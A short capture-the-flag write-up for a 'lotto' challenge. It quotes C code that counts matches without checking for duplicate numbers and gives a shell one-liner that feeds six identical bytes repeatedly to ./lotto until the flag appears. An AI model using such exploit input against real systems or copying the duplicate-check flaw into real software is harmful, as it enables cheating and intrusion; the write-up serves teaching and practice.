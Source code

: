 # Lotto
In a real lottery, you choose distinct numbers.

If you look at these lines of the supplied code:

```c
int match = 0, j = 0;
for(i=0; i<6; i++){
    for(j=0; j<6; j++){
        if(lotto[i] == submit[j]){
            match++;
        }
    }
}
```

There's no check for duplicates, which means we can supply the same number as many times as we want and eventually one of the random bytes is gonna match all 6 numbers.

We can then come up with a smart answer:

`$ (for i in $(seq 50); do echo 1; sleep 1; printf "\x01\x01\x01\x01\x01\x01"; sleep 1; done; echo 3) | ./lotto`

And hit Ctrl-C as soon as we get the flag.
